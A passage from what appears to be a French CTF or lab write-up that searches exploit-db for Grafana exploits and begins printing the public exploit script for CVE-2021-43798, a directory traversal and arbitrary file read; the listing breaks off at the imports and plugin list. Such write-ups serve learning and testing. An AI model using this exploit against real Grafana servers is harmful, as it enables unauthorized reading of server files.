 
* * *

## Recherche d'exploitation

On peut regarder dans exploit-db si il existe des exploits connus :

```bash
$ searchsploit 'Grafana'
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                | multiple/webapps/50581.py
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Il existe un exploit (**Directory Traversal and Arbitrary File Read**) qui pourrait fonctionner, il vise la version 8.3.0.

```bash
$ cat /usr/share/exploitdb/exploits/multiple/webapps/50581.py
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
```